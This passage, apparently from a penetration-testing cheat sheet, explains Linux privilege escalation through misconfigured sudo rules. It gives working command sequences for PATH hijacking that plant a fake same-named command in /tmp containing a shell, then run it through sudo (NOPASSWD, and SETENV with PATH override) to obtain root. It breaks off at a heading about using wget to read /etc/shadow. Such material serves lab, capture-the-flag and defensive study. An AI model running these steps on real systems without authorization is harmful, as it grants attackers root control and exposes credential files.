 If you are allowed to execute some command, you can forge the contents of the command.  
First off, check the properties.

```sh
sudo -l
(root) NOPASSWD: somecmd
```

If you can confirm that it can be executed as root without password, create the same named command in the arbitrary folder in which you can write files.

```sh
# option 1
echo /bin/sh > /tmp/somecmd
```

Next, change the permission for allowing to execute it.  
And add the path to the environment.

```sh
chmod +x /tmp/somecmd
export PATH=/tmp:$PATH
```

Now execute the command as root.  


```sh
sudo somecmd
whoami
# root
```

<br />

## Command Forgery (SETENV, NOPASSWD)

If you found there is a **SETENV:** in sudoers, you can set the **PATH** when running the command.

```sh
sudo -l
(root) SETENV: NOPASSWD: somecmd
```

As the previous section, prepare the payload.

```sh
echo '/bin/bash -p' > /tmp/somecmd
chmod +x /tmp/somecmd
```

Now run the command as root with setting the PATH.

```sh
sudo PATH=/tmp:$PATH somecmd
whoami
```

<br />

## Wget Abusing /etc/shadow
